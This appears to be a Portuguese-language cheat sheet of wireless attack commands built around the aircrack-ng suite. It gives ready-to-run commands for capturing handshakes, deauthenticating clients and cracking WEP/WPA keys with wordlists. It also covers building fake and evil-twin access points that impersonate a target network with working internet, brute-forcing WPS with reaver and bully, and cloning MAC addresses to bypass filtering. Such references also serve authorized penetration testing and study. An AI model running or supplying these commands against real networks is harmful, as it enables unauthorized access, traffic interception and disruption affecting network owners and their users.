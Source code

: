 # AIRCRACK-NG SUITE

## AIRMON-NG

Checando processos conflitantes:

```bash
airmon-ng check
```

Matando processos conflitantes:

```bash
airmon-ng check kill
```

Iniciando modo monitor:

```bash
airmon-ng start wlan0
```

*O nome da interface pode variar.*

Setando canal específico:

```bash
iwconfig wlan0mon channel 1
```

## AIRODUMP-NG

Ver informações das redes wireless:

```bash
airodump-ng wlan0mon
```

Filtrando por canal:

```bash
airodump-ng -c 10 wlan0mon
```

Filtrando por BSSID:

```bash
airodump-ng --bssid 00:11:22:AA:BB:CC wlan0mon
```

Filtrando por tipo de criptografia:

```bash
airodump-ng --encrypt wep wlan0mon
```

Verificando redes com WPS:

```bash
airodump-ng wlan0mon --wps
```

```bash
wash -i wlan0mon -C
```

Capturando os pacotes e escrevendo em um arquivo:

```bash
airodump-ng -c 10 --bssid 00:11:22:AA:BB:CC -w capture wlan0mon
```

## AIREPLAY-NG

Para acelerar a captura de pacotes através do airodump-ng no ataque WEP:

```bash
aireplay-ng -3 -b 00:11:22:AA:BB:CC -h AA:BB:CC:DD:EE:FF:99 wlan0mon
```

**-b** ==> BSSID do roteador alvo.  
**-h** ==> BSSID do cliente conectado ao roteador.  

Para acelerar a captura de handshakes através do airodump-ng no ataque WPA:

```bash
aireplay-ng -0 5 -a 00:11:22:AA:BB:CC -c AA:BB:CC:DD:EE:FF:99 wlan0mon
```

**-a** ==> MAC access point.  
**-c** ==> MAC do cliente.  
**-0 5** ==> Deauth cliente 5 vezes.

## AIRCRACK-NG

Quebra do arquivo capturado no airodump-ng para redes WEP:

```bash
aircrack-ng capture-01.cap
```

Quebra do arquivo capturado no airodump-ng para redes WPA:

```bash
aircrack-ng capture-01.cap -w /usr/share/wordlists/rockyou.txt
```

Concatenar crunch e o aircrack-ng:

```bash
crunch 15 15 -t EmpresaAlfa%%%% 0123456789 | aircrack-ng captura-01.cap -w - -e EmpresaAlfa
```

## AIRDECAP-NG

Desencriptando pacotes escriptados em rede wireless:

```bash
airdecap-ng -w A0:11:22:33:44:55:66:77:CC:B1:B4:8A:D3 capture-01.cap
```

**-w** ==> Senha em HEX da rede.

## AIRBASE-NG

Criando AP Fake OPN:

```bash
airbase-ng wlan0mon -c 3 -e FreeWifi
```

Criando AP Fake WPA2:

```bash
airbase-ng wlan0mon -c 3 -e FreeWifi -Z 4
```

Configurando AP Fake para possuir acesso à internet:  
1- echo 1 > /proc/sys/net/ipv4/ip_forward  
2- iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE  
3- apt install isc-dhcp-server  
4- nano /etc/default/isc-dhcp-server

```bash
INTERFACES="at0"
```

5- nano /etc/dhcp/dhcpd.conf

```bash
option domain-name-servers 8.8.8.8, 8.8.4.4;  

default-lease-time 600;  
max-lease-time 7200;  

ddns-update-style none;

subnet 10.0.0.0 netmask 255.255.255.0 {
  range 10.0.0.10 10.0.0.100;
  option routers 10.0.0.1;
}
```

5- ifconfig at0 10.0.0.1/24  
6- service isc-dhcp-server start

## EVIL TWIN

Consiste em criar uma rede idêntica a do alvo.  

Criando rede através do airbase-ng:

```bash
airbase-ng wlan0mon -c 10 -e EmpresaAlfa -a 00:11:22:33:44:55 -Z 4
```

Agora iremos efetuar o Death dos clientes:

```bash
aireplay-ng wlan0mon -0 5 -a 00:11:22:33:44:55
```

*Logo os usuários irão se conectar no AP Fake.*

## BULLY

Brute force em WPS:

```bash
bully wlan0mon -b 00:11:22:AA:BB:CC -e EmpresaAlfa -c 10
```

## REAVER

Brute force em WPS:

```bash
reaver -i wlan0mon -b 00:11:22:AA:BB:CC -vv
```

Ataque PixieWPS:

```bash
reaver -i wlan0mon -b 00:11:22:AA:BB:CC -vv -K 1
```

```bash
reaver -i wlan0mon -b 00:11:22:AA:BB:CC -vv -K 1 -P
```

Utilizando timeout e delay:

```bash
reaver -i wlan0mon -b 00:11:22:AA:BB:CC -vv -t 2 -d 5
```

## MAC Changer

Clonando MAC de cliente para conectar em redes com MAC Filter:

```bash
ifconfig wlan0 down  
```

```bash
macchanger -m AA:BB:CC:DD:EE:FF:99 wlan0  
```

```bash
ifconfig wlan0 up  
```

```bash
service NetworkManager  
```
